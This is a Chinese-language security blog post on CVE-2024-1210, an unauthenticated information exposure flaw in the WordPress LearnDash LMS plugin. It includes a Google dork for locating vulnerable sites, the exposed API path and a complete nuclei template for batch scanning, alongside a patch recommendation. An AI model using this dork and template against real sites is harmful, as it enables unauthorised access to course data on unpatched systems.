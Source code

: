 #  CVE-2024-1210   
原创 fgz  AI与网安   2024-03-26 00:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WordPress Plugin LearnDash LMS 敏感信息未授权访问漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WordPress Plugin LearnDash LMS <= 4.10.1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tJBzlIVlR7P8twzE42xVauicJVZbpzXbD8AkuKxWKXWiayFkaoZ6qLNlQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。  
  
WordPress Plugin LearnDash LMS 4.10.1及之前版本存在安全漏洞，该漏洞源于容易通过API暴露敏感信息，未经身份验证的攻击者可能获得测验的访问权限。  
  
  
04  
  
—  
  
google搜索语句  
  
  
```
inurl:"/wp-content/plugins/sfwd-lms"
```  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
路径  
```
/wp-json/ldlms/v1/sfwd-quiz
```  
  
get请求可以使用浏览器访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tVPEGOv6fiaa4w4STJTDKcZonlcEnicoJDTVNwZdRI4SXibI9hKHDLTezw/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei-templates 已发布poc，内容如下  
```
id: CVE-2024-1210

info:
  name: LearnDash LMS < 4.10.2 - Sensitive Information Exposure
  author: ritikchaddha
  severity: medium
  description: |
    The LearnDash LMS plugin for WordPress is vulnerable to Sensitive Information Exposure in all versions up to, and including, 4.10.1 via API. This makes it possible for unauthenticated attackers to obtain access to quizzes.
  remediation: Fixed in 4.10.2
  reference:
    - https://wpscan.com/vulnerability/f4b12179-3112-465a-97e1-314721f7fe3d/
    - https://github.com/karlemilnikka/CVE-2024-1208-and-CVE-2024-1210
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1210
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
    cvss-score: 5.3
    cve-id: CVE-2024-1210
    cpe: cpe:2.3:a:learndash:learndash:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 1
    vendor: learndash
    product: learndash
    framework: wordpress
    publicwww-query: "/wp-content/plugins/sfwd-lms"
    googledork-query: inurl:"/wp-content/plugins/sfwd-lms"
  tags: wpscan,cve,cve2024,wp,wp-plugin,wordpress,exposure,learndash

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-json/ldlms/v1/sfwd-quiz"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":'
          - '"quiz_materials":'
          - 'quizzes'
        condition: and

      - type: word
        part: header
        words:
          - 'application/json'

      - type: status
        status:
          - 200
# digest: 490a00463044022079f0e028ee4fd33b5e897e0550a707be3dbe291e8085b9d175297108e9c8858102202a9344a25a6ec5fa1fc025e439a8887f6cc9c9ac50b6c199f1fa27e4cc948855:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
